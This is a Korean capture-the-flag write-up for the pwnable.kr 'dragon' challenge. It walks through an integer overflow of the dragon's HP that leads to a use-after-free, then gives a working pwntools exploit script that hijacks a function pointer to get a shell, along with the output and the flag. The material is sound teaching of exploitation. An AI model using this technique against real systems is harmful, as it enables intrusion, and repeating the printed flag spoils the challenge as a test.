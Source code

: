 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-10-00-00-17.png)


# **Write-Up**

서버에 접속하면 다음과 같이 dragon과 싸우는데 이겨야 FLAG를 얻을 것 같다.

```sh
E:\6.Utill\netcat\nc>nc pwnable.kr 9004
Welcome to Dragon Hunter!
Choose Your Hero
[ 1 ] Priest
[ 2 ] Knight
2
Baby Dragon Has Appeared!
[ Baby Dragon ] 50 HP / 30 Damage / +5 Life Regeneration.
[ Knight ] 50 HP / 0 Mana
        [ 1 ] Crash
                Deals 20 Damage.
        [ 2 ] Frenzy
                Deals 40 Damage, But You Lose 20 HP.
1
Crash Deals 20 Damage To The Dragon!
But The Dragon Deals 30 Damage To You!
And The Dragon Heals 5 HP!
... 생략 ...
```

바이너리 정보는 다음과 같다.

```sh
root@ubuntu:~# checksec dragon
[*] '/root/dragon'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Choose Your Hero를 고르는 값은 Getchoice라는 함수에서 입력받는다.

![](images/2022-01-10-00-14-31.png)

이때, 1 혹은 2이면 FightDragon함수로 들어가고 3이라면 SecretLevel이라는 함수로 들어간다.

![](images/2022-01-10-00-15-50.png)

SecretLevel에서는 문자열을 입력받고 Nice_Try_But_The_Dragons_Won't_Let_You!와 비교하지만, 10글자를 입력받기 때문에 진행될 수가 없다.

![](images/2022-01-10-00-25-12.png)

FightDragon함수를 살펴보자. 먼저 malloc함수를 통해 16byte 크기를 user, dragon에 할당한다.

![](images/2022-01-10-01-00-56.png)

그 이후 Count가 +1씩 증가하며 홀수이면 Baby dragon이, 짝수이면 Mama dragon이 나온다.

먼저 dragon의 구조는 다음과 같다.

||정보 출력 함수|id|HP|Life Regeneration|빈 값|빈 값|Damage|
|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|
|크기(byte)|4|4|1|1|1|1|4|

![](images/2022-01-10-01-05-44.png)

이 때, HP가 byte이기 때문에 127이 넘어가면 overflow가 일어나서 음수가 될 것이다.

dragon의 정보를 초기화할 때, HP의 초기 값을 127로 설정해서 진행해보자.

![](images/2022-01-10-01-11-16.png)

dragon의 정보 초기화가 진행 후 Hero의 정보를 초기화한다.

![](images/2022-01-10-01-13-23.png)

||id|HP|MP|정보 출력 함수|
|:---:|:---:|:---:|:---:|:---:|
|크기(byte)|4|4|4|4|

그 다음 각 Hero마다의 Attack함수로 들어가게 된다. 이때, 공격하지 않고, dragon의 HP를 overflow하기 위해 Priest의 HolyShield를 사용하자.

```sh
[ Priest ] 42 HP / 50 MP
        [ 1 ] Holy Bolt [ Cost : 10 MP ]
                Deals 20 Damage.
        [ 2 ] Clarity [ Cost : 0 MP ]
                Refreshes All Mana.
        [ 3 ] HolyShield [ Cost: 25 MP ]
                You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
```

그렇다면 dragon에게 할당된 주소가 free된다.

![](images/2022-01-10-01-20-24.png)

dragon을 이긴 후 16byte를 다시 malloc하는 데, 이때 기존 dragon의 데이터가 있던 주소로 할당되기 때문에 uaf가 터진다.

그리고 scanf로 16byte를 받기때문에 SecretLevel의 system함수를 호출하는 주소로 넣으면 쉘을 얻을 수 있을거라고 판단된다.

![](images/2022-01-10-01-23-37.png)

FLAG를 획득하자.

```python
from pwn import *

r       = remote('pwnable.kr', 9004)
shell   = 0x08048DBF

# For Mama dragon appear
r.recvuntil('Knight\n')
r.sendline('2')

r.recvuntil('Lose 20 HP.\n')
r.sendline('2')

# Mama dragon HP overflow
r.recvuntil('Knight\n')
r.sendline('1')

for i in range(4):
    r.recvuntil('Invincible.\n')
    r.sendline('3')
    r.recvuntil('Invincible.\n')
    r.sendline('3')
    r.recvuntil('Invincible.\n')
    r.sendline('2')

r.recvuntil('You As:\n')
r.sendline(p32(shell))
r.sendline("cat flag")
r.recvline()
print(r.recvline().decode())

[Output]
[x] Opening connection to pwnable.kr on port 9004
[x] Opening connection to pwnable.kr on port 9004: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9004: Done
MaMa, Gandhi was right! :)

[*] Closed connection to pwnable.kr port 9004
```

# **FLAG**

**MaMa, Gandhi was right! :)**